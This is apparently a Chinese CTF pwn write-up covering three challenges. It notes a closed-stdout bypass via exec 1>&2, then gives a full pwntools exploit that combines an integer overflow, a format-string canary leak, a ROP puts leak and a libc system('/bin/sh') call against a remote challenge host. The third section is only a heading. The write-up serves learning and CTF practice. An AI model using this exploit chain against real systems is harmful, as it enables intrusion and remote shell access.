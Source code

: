 
### 第一题

#### 考点：文件描述符，close(1)关闭了文件输出，close(2)关闭了文件错误输出

因为关闭了文件显示但是存在系统调用函数。
直接输入exec 1>&2就行
![[Pasted image 20240910232807.png]]

![[Pasted image 20240910232816.png]]

### 第二题

#### 考点：考察的canary泄露和有符号转无符号导致的整数溢出（ int (-1) --> unsigned int(1) ）

#### 附件：

![[Pasted image 20240923211731.png]]
![[Pasted image 20240923211745.png]]
主函数是第一张图，第二张是get_n的函数，这个函数的作用是输入字符串，atoi函数是将字符串转化为整数，溢出在第二个get_n函数，如果v1是-1的话，v1在主函数声明的是int，但是在get_n的函数里面的是声明的unsigned int，强制转换-1为unsigned int会变成非常大的数。

第三张图里面是一个格式化字符串漏洞。用来泄露canary。

思路是：利用输入的是-1造成整数溢出。然后在泄露canary，然后构造rop泄露基地址，最后调用system。

##### !!!疑问

在构建exp的时候我遇到了一些问题，在发送‘-999’的时候，如果围我用是send()那么我接收不到gift,用的是sendline()的话那就可以得到。

![[Pasted image 20240923211833.png]]

在发送‘|%7$p’的时候，如果围我用是send()那么我接收不到canary,用的是sendline()的话那就可以得到。
![[Pasted image 20240923211757.png]]

还有就是主函数里面的输入函数只有3个，getchar()函数是用来处理换行符的，不是输入的。

atoi函数是将字符串转化为整数（int）的函数。

![[Pasted image 20240923211807.png]]

我在接收泄露的真实地址的时候发现一直接收的是同一个地址，发现不对。经过与exp  
对比后发现是自己粗心，没有将程序中的输出的字符串接收。所以才导致一直是接受的是同一个地址。

只需要在sendline的后面加上recvline就可以将输出的字符串接收就行。然后就发现就可以打通了。


![[Pasted image 20240923211846.png]]


```
from pwn import*
from LibcSearcher import *
p=remote("hnctf.yuanshen.life",34702)
# p=process('./idea')
libc=ELF('./idea')
context(os='linux', arch='i386', log_level='debug')
main=libc.sym['main']
put_plt=libc.plt['puts']
main_got=libc.got['__libc_start_main']
p.recvuntil(b"read? ")
pay=b'-9'
p.sendline(pay)
pay=b"|%7$p"
p.recvuntil(b"gift!\n")
p.sendline(pay)
p.recvuntil(b'|')
canary=int(p.recv(10),16)
print(hex(canary))
pay=flat(b'a'*(0x20),p32(canary),b'a' * 0xc,p32(put_plt),p32(main),p32(main_got))
p.recvuntil(b"data!\n")
p.sendline(pay)

p.recvline()

main_addr=u32(p.recv(4))
Libc = LibcSearcher("__libc_start_main",main_addr)
log.success('leak_atoi_real_addr => {}'.format(hex(main_addr)))

libcbase = main_addr - Libc.dump('__libc_start_main')
system_addr = libcbase + Libc.dump('system')
str_bin_sh = libcbase + Libc.dump('str_bin_sh')

p.recvuntil(b"read? ")
pay=b'-9'
p.sendline(pay)
pay=b"|%7$p"
p.recvuntil(b"gift!\n")
p.sendline(pay)
p.recvuntil(b"data!\n")
pay=flat(b'a'*(0x20),p32(canary),b'a' * 0xc,p32(system_addr),p32(0),p32(str_bin_sh))
p.sendline(pay)
p.interactive()
```



### 第三题

#### 考点：栈溢出至rbp，然后靠函数退出的leave;retn进行栈迁移

#### 附件：
![[pwn1]]


